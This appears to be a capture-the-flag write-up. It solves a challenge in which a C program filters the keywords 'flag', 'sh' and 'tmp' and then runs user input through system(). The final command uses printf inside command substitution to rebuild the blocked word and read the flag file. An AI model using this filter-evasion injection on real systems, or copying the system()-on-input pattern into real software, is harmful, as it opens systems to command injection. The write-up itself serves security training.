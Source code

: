 ### Task

The challenge involves bypassing a filter in the provided C code to execute a command that reads the flag. The filter blocks certain keywords like `flag`, `sh`, and `tmp`, so we need to find a way to bypass it.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd) {
    int r = 0;
    r += strstr(cmd, "flag") != 0;
    r += strstr(cmd, "sh") != 0;
    r += strstr(cmd, "tmp") != 0;
    return r;
}

int main(int argc, char* argv[], char** envp) {
    putenv("PATH=/thankyouverymuch");
    if (filter(argv[1])) return 0;
    system(argv[1]);
    return 0;
}
```

### Analysis

1. **Filter Function**:
   - The `filter` function checks if the input command contains the strings `flag`, `sh`, or `tmp`.
   - If any of these strings are found, the function returns a non-zero value, causing the program to exit without executing the command.

2. **Environment Manipulation**:
   - The `putenv("PATH=/thankyouverymuch");` line modifies the `PATH` environment variable, making it impossible to execute common commands like `echo` or `cat` directly.

3. **Command Execution**:
   - The program executes the command passed as `argv[1]` using `system(argv[1])`, but only if it passes the filter.

### Solution

To bypass the filter and execute a command that reads the flag, we can use the following techniques:

1. **String Concatenation**:
   - Use `printf` to construct the string `flag` without explicitly writing it. For example:
     ```bash
     printf "%s%s" "fl" "ag"
     ```

2. **Full Path to Commands**:
   - Since the `PATH` environment variable is modified, we need to use the full path to commands like `/bin/cat`.

3. **Command Substitution**:
   - Use `$(...)` to execute a command and substitute its output into the main command.


The final solution involves constructing a command that bypasses the filter and reads the flag:

```bash
./cmd1 '$(printf "/bin/cat ./%s%s" "fl" "ag")'
```

### Final Command

Run the following command to exploit the program and retrieve the flag:

```bash
./cmd1 '$(printf "/bin/cat ./%s%s" "fl" "ag")'
```
